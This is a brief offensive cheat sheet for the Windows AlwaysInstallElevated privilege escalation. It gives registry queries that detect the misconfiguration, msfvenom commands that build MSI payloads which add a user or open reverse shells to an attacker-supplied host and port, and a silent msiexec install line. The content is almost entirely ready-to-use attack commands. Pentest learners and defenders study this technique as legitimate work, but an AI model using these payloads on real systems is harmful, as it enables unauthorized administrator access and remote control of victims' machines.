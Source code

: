 # Always install elevated

## Enumeration

Both keys have to exist and be set to one

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

## Exploitation

### msfvenom payload

```
msfvenom -p windows/adduser USER=<user> PASS=<pass> -f msi -o <filename>.msi
msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o <filename>.msi
msfvenom -p windows/powershell_reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o <filename>.msi
---staged---
msfvenom -p windows/shell/reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o <filename>.msi
msfvenom -p windows/powershell/reverse_tcp LHOST=<ip> LPORT=<port> -f msi -o <filename>.msi
```

### Install MSI

```
msiexec /quiet /qn /i <path to file>.msi
```

